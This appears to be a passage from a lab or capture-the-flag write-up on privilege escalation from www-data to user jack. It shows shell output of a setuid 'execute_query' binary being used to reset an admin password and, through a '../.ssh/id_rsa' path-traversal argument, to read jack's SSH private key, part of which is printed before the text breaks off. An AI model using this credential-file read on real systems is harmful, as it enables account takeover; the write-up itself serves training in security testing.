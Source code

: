 ## Privilege Escalation

### enumeration

- /etc/passwd -> root, www-data, jack
- port 3306 - mysql

### www-data -> jack

- files in `/opt/`

```bash
total 16K
4.0K drwxr-xr-x 18 root root 4.0K Sep  5 19:19 ..
4.0K drwxr-xr-x  2 jack jack 4.0K Jul 21 22:29 manage
4.0K drwxr-xr-x  3 root root 4.0K Jul 20 10:00 .
4.0K -rwxr-xr-x  1 root root  504 Jul 20 10:00 monitor.sh

total 28K
4.0K drwxr-xr-x 2 jack jack 4.0K Jul 21 22:29 .
4.0K -rw-rw-r-- 1 jack jack  256 Jul 21 22:29 README.txt
4.0K drwxr-xr-x 3 root root 4.0K Jul 20 10:00 ..
 16K -rwsrwsr-x 1 jack jack  16K Feb 26  2023 execute_query
bash-5.1$ cat README.txt
cat README.txt
Web application Management

Use the binary to execute the following task:
        - 1: Creates the database structure and adds user admin
        - 2: Creates fake players (better not tell anyone)
        - 3: Resets the admin password
        - 4: Deletes all users except the admin
```

- hash file uncrackable [x]

```bash
bash-5.1$ /execute_query 3
./execute_query 3
mysql: [Warning] Using a password on the command line interface can be insecure.
--------------
UPDATE players SET password='ec9407f758dbed2ac510cac18f67056de100b1890f5bd8027ee496cc250e3f82' WHERE username='admin'
--------------
```

- execute_query 5 also tries to cat a file -> guess this tool is under the **jack's home** -> get ssh private key

```bash
./execute_query 5 ../.ssh/id_rsa
mysql: [Warning] Using a password on the command line interface can be insecure.
-----BEGIN OPENSSH PRIVATE KEY-----
b3BlbnNzaC1rZXktdjEAAAAABG5vbmUAAAAEbm9uZQAAAAAAAAABAAABlwAAAAdzc2gtcn
NhAAAAAwEAAQAAAYEAs4eQaWHe45iGSieDHbraAYgQdMwlMGPt50KmMUAvWgAV2zlP8/1Y
J/tSzgoR9Fko8I1UpLnHCLz2Ezsb/MrLCe8nG5TlbJrrQ4HcqnS4TKN7DZ7XW0bup3ayy1
kAAZ9Uot6ep/ekM8E+7/39VZ5fe1FwZj4iRKI+g/BVQFclsgK02B594GkOz33P/Zzte2jV
Tgmy3+htPE5My31i2lXh6XWfepiBOjG+mQDg2OySAphbO1SbMisowP1aSexKMh7Ir6IlPu
nuw3l/luyvRGDN8fyumTeIXVAdPfOqMqTOVECo7hAoY+uYWKfiHxOX4fo+/fNwdcfctBUm
pr5Nxx0GCH1wLnHsbx+/oBkPzxuzd+BcGNZp7FP8cn+dEFz2ty8Ls0Mr+XW5ofivEwr3+e
30OgtpL6QhO2eLiZVrIXOHiPzW49emv4xhuoPF3E/5CA6akeQbbGAppTi+EBG9Lhr04c9E
2uCSLPiZqHiViArcUbbXxWMX2NPSJzDsQ4xeYqFtAAAFiO2Fee3thXntAAAAB3NzaC1yc2
EAAAGBALOHkGlh3uOYhkongx262gGIEHTMJTBj7edCpjFAL1oAFds5T/P9WCf7Us4KEfRZ
KPCNVKS5xwi89hM7G/zKywnvJxuU5Wya60OB3Kp0uEyjew2e11tG7qd2sstZAAGfVKLenq
f3pDPBPu/9/VWeX3tRcGY+IkSiPoPwVUBXJbICtNgefeBpDs99z/2c7Xto1U4Jst/obTxO
TMt9YtpV4el1n3qYgToxvpkA4NjskgKYWztUmzIrKMD9WknsSjIeyK+iJT7p7sN5f5bsr0
```